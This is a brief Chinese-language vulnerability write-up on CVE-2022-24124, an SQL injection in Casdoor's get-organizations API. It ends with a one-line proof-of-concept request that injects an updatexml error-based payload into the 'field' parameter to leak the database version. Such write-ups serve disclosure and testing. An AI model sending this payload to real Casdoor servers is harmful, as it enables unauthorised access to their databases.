

# Casdoor get-organizations SQL注入漏洞 CVE-2022-24124

## 漏洞描述

Casdoor 是一个基于 OAuth 2.0 / OIDC 的 UI 优先集中认证 / 单点登录 (SSO) 平台，简单点说，就是 Casdoor 可以帮你解决 用户管理 的难题，你无需开发用户登录注册等与用户鉴权相关的一系列功能，只需几个步骤，简单配置，与你的主应用配合，便可完全托管你的用户模块，简单省心，功能强大。

## 漏洞影响

<a-checkbox checked>Casdoor </a-checkbox>

## 网络测绘

<a-checkbox checked>"Casdoor"</a-checkbox>

## 漏洞复现

登录页面


验证POC

```java
/api/get-organizations?p=123&pageSize=123&value=cfx&sortField=&sortOrder=&field=updatexml(null,version(),null)
```

